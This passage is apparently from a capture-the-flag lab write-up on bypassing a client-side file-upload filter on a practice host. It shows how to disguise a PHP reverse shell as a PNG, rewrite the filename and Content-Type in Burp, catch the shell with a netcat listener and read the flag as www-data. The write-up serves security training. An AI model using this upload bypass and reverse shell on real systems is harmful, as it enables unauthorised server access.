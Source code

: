 - Try to upload a `.png` file and check correct uploading at [http://java.uploadvulns.thm/images](http://java.uploadvulns.thm/images)
  - (2nd option: prevent `client-side-filter.js` file from being loaded by intercepting the response with Burp)
- Change `php-reverse-shell.php` extension and catch the upload request with BurpSuite
  - as the MIME type (based on the file extension) automatically checks out, the Client-Side filter lets the payload through without complaining

```bash
cp php-reverse-shell.php shell.png
```

- In the intercepted request, change the to `filename` and the `Content-Type` to the following values and then forward the request

```bash
filename="shell.php"
Content-Type: text/x-php
```

![](.gitbook/assets/2024-12-03_21-28-53_822.png)

- Set up a `nc` listener and navigate to [http://java.uploadvulns.thm/images/shell.php]( http://java.uploadvulns.thm/images/shell.php) to receive the reverse shell

```bash
rlwrap nc -nvlp 1234

# Rev Shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ cat /var/www/flag.txt
```

---